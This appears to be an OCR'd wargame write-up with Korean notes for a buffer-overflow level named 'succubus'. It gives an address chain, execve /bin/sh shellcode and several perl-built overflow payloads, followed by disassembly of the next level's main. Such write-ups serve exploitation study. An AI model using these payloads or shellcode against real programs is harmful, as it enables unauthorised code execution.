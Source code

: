 $(perl -e 'print "a"x44 . "\xec\x87\x04\x08"')

0x80487ec <DO>
0x80487bc <GYE>:
0x804878c <GUL>
0x804875c <YUT>
0x8048724 <MO>
0x804840c <system>
0x400fbff9 </bin/sh>
MO에서 system함수를 호출하므로 그 인자로 셸코드를 올려서 해결.(/bin/sh주소는 사용불가)
<SHELL CODE>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

./succubus $(perl -e 'print "\x90"x44 . "\xec\x87\x04\x08\xbc\x87\x04\x08\x8c\x87\x04\x08\x5c\x87\x04\x08\x24\x87\x04\x08" . "\xac\xfa\xff\xbf" . "ffff" . "\x90"x4 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"')
44byte+[DO...MO addr 20]+[ret 4]+[dummy 4]+[nop3+shellcode25]
total 100byte (버퍼 뒷부분까지 총 100바이트남 남음)
shell code: bffffaa4

./succubus $(perl -e 'print "\x90"x44 . "\xec\x87\x04\x08\xbc\x87\x04\x08\x8c\x87\x04\x08\x5c\x87\x04\x08\x24\x87\x04\x08" . "\xa4\xfa\xff\xbf" . "ffff" . "\x90"x3 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')




(18) LEVEL 18: succubus / here to stay

0x80486b4 <main>:       push   %ebp 0x80486b5 <main+1>:     mov    %ebp,%esp 0x80486b7 <main+3>:     sub    %esp,44 0x80486ba <main+6>:     cmp    DWORD PTR [%ebp+8],1 0x80486be <main+10>:    jg     0x80486d7 <main+35> 0x80486c0 <main+12>:    push   0x80487db 0x80486c5 <main+17>:    call   0x80483e0 <printf> 0x80486ca <main+22>:    add    %esp,4 0x80486cd <main+25>:    push   0 0x80486cf <main+27>:    call   0x80483f0 <exit> 0x80486d4 <main+32>:    add    %esp,4 0x80486d7 <main+35>:    mov    DWORD PTR [%ebp-44],0x8048410 0x80486de <main+42>:    push   4 0x80486e0 <main+44>:    lea    %eax,[%ebp-44] 0x80486e3 <main+47>:    push   %eax 0x80486e4 <main+48>:    mov    %eax,DWORD PTR [%ebp+12] 0x80486e7 <main+51>:    add    %eax,4 0x80486ea <main+54>:    mov    %edx,DWORD PTR [%eax] 0x80486ec <main+56>:    add    %edx,44 0x80486ef <main+59>:    push   %edx 0x80486f0 <main+60>:    call   0x80483c0 <memcmp> 0x80486f5 <main+65>:    add    %esp,12  0x80486f8 <main+68>:    mov    %eax,%eax 0x80486fa <main+70>:    test   %eax,%eax 0x80486fc <main+72>:    je     0x8048715 <main+97> 0x80486fe <main+74>:    push   0x8048800 0x8048703 <main+79>:    call   0x80483e0 <printf> 0x8048708 <main+84>:    add    %esp,4 0x804870b <main+87>:    push   0 0x804870d <main+89>:    call   0x80483f0 <exit> 0x8048712 <main+94>:    add    %esp,4 0x8048715 <main+97>:    mov    %eax,DWORD PTR [%ebp+12] 0x8048718 <main+100>:   add    %eax,4 0x804871b <main+103>:   mov    %edx,DWORD PTR [%eax] 0x804871d <main+105>:   push   %edx 0x804871e <main+106>:   lea    %eax,[%ebp-40] 0x8048721 <main+109>:   push   %eax 0x8048722 <main+110>:   call   0x8048410 <strcpy> 0x8048727 <main+115>:   add    %esp,8 0x804872a <main+118>:   lea    %eax,[%ebp-40] 0x804872d <main+121>:   push   %eax 0x804872e <main+122>:   push   0x8048825 0x8048733 <main+127>:   call   0x80483e0 <printf> 0x8048738 <main+132>:   add    %esp,8 0x804873b <main+135>:   push   4 0x804873d <main+137>:   push   65 0x804873f <main+139>:   lea    %eax,[%ebp-40] 0x8048742 <main+142>:   lea    %edx,[%eax+48] 0x8048745 <main+145>:   push   %edx 0x8048746 <main+146>:   call   0x8048400 <memset> 0x804874b <main+151>:   add    %esp,12 0x804874e <main+154>:   leave 0x804874f <main+155>:   ret	if(argc<=1){ printf("argv error\n"); exit(0); }
	0x8048410<strcpy>
	